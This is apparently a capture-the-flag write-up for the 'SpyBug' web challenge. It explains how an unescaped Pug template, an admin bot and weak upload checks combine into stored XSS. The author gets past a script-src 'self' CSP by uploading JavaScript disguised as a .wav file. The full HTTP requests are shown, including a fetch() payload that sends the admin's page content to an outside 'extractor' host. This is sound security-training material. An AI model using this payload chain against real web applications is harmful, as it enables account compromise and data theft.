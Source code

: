 # SpyBug (medium)
In this challene we will use XSS, bypass CSP and exploit unprotected endpoints.

There's a login page, and checking the provided source code all endpoints seem to be protected by the login.
The only user seems to be **admin** with an unknown password and we can't register our own users.

We want to target the **admin** user, since when logging in to the panel the welcome message gets replaced by the flag for the admin user.

```javascript
router.get("/panel", authUser, async (req, res) => {
  res.render("panel", {
    username:
      req.session.username === "admin"
        ? process.env.FLAG
        : req.session.username,
    agents: await getAgents(),
    recordings: await getRecordings(),
  });
});
```

However exploring further I stumble upon the **agents** part of the website.
We can register agents without any authentication.
And once agents are registered the only authentication is providin and id and a token, that we get as a result of the registration.

So what can we do with an agent?
* Change information: `hostname`, `platform` and `arch`
* Upload files adhereing to certain requirements

To find out why this is important let's circle back to the admin panel (`views/panel.pug`):

```pug
    hr 
    h2 #{"Welcome back " + username}
    hr
    h3
        i.las.la-laptop
        | &nbsp;Agents
    if agents.length > 0
        table.w-100
            thead
                tr
                th ID
                th Hostname
                th Platform
                th Arch
            tbody
                each agent in agents
                    tr
                        td= agent.identifier
                        td !{agent.hostname}
                        td !{agent.platform}
                        td !{agent.arch}
    else
        h2 No agents
```

We see that the admin can see the list of agents, but look at that!
What is `!{}`?

After some exploration I read the following:
> It’s also possible to render unescaped values into your templates using `!{}`

Okay, so we have an XSS vector here.

Now let's see why this is useful:
```javascript
// index.js
setInterval(visitPanel, 60000);
```

`visitPanel` is called every minute after the server is started.

```javascript
// utils/adminbot.js
exports.visitPanel = async () => {
  try {
    const browser = await puppeteer.launch(browserOptions);
    let context = await browser.createIncognitoBrowserContext();
    let page = await context.newPage();

    page.on("pageerror", async error => {
      console.log(error.toString());
    });

    await page.goto("http://0.0.0.0:" + process.env.API_PORT, {
      waitUntil: "networkidle2",
      timeout: 5000,
    });

    await page.type("#username", "admin");
    await page.type("#password", process.env.ADMIN_SECRET);
    await page.click("#loginButton");

    await page.waitForTimeout(5000);
    console.log(await page.content())
    await browser.close();
  } catch (e) {
    console.log(e);
  }
};
```

So we have a periodic login with the admin user!

Now I immediately crafted and XSS exploit that would read the flag from the HTML source and send it to my extractor server. However this didn't work out so well.

After calming down and going back to `index.js`:
```javascript
application.use((req, res, next) => {
  res.setHeader("Content-Security-Policy", "script-src 'self'; frame-ancestors 'none'; object-src 'none'; base-uri 'none';");
  res.setHeader("Cache-Control", "no-cache, no-store, must-revalidate");
  res.setHeader("Pragma", "no-cache");
  res.setHeader("Expires", "0");
  next();
});
```

Huh, CSP! We can't have inline scripts, our scripts from any source other than the website itself.

But let's recall that the **agents** has another capability, which was to upload files!

```javascript
// index.js:68
router.post(
  "/agents/upload/:identifier/:token",
  authAgent,
  multerUpload.single("recording"),
  async (req, res) => {
      console.log('upload-router')
    if (!req.file) return res.sendStatus(400);

      console.log('upload-hasfile')
    const filepath = path.join("./uploads/", req.file.filename);
    const buffer = fs.readFileSync(filepath).toString("hex");

    if (!buffer.match(/52494646[a-z0-9]{8}57415645/g)) {
      console.log('upload-nomatch')
      fs.unlinkSync(filepath);
      return res.sendStatus(400);
    }

    await createRecording(req.params.identifier, req.file.filename);
      console.log('upload-hasdb')
    res.send(req.file.filename);
  }
);
```

Ok, it is using the `multer` package to handle file uploads.

```javascript
// index.js:30
if (
      file.mimetype === "audio/wave" &&
      path.extname(file.originalname) === ".wav"
    ) {
        console.log('multer filter OK')
      cb(null, true);
    }
```

Okay we need to set the mime type and the file extension, we can easily do this.

Looking at the previous code segment, there are also checks performed on the file content.
First it is converted to hex and then it needs to match a regex.
Converting the hex back to ascii we see what the criteria is:
`RIFF####WAVE`, where `#` can be any number or lowercase letter, moreover this match doesn't need to be exactly at the start of the file.
To bypass this I just add comment in the javascript exploit satisfying the criteria.

Thus the following request is constructed in order to defeat the upload filter:

```
POST /agents/upload/07074041-0dc9-4631-bbdc-ef47aacac8bf/e7ceab6e-996e-4926-9e62-f2f3a6010a73 HTTP/1.1

Host: localhost:1337

User-Agent: curl/7.88.1

Accept: */*

Content-Length: 312

Content-Type: multipart/form-data; boundary=------------------------c0f40fce34781d0f

Connection: close



--------------------------c0f40fce34781d0f

Content-Disposition: form-data; name="recording"; filename="exploit.wav"

Content-Type: audio/wave



//RIFFabcdWAVE

fetch('http://<extractor URL>' + document.querySelector('h2').innerText).then(r => console.log(r))


--------------------------c0f40fce34781d0f--

```

After this the only that is left to do is to inject a script tag with the XSS vulnerability that points to this file.

```
POST /agents/details/07074041-0dc9-4631-bbdc-ef47aacac8bf/e7ceab6e-996e-4926-9e62-f2f3a6010a73 HTTP/1.1

Host: localhost:1337

Content-Length: 124

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: http://localhost:1337

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.127 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Connection: close



hostname=%3cscript%20src%3d%22%2fuploads%2f0497c55d-b77b-4274-b385-53638f0d5e37%22%3e%3c%2fscript%3e&platform=linux&arch=x86
```

The name of the file is returned from the request that uploads the file.

Now in a minute our extractor will be pinged with the flag :)
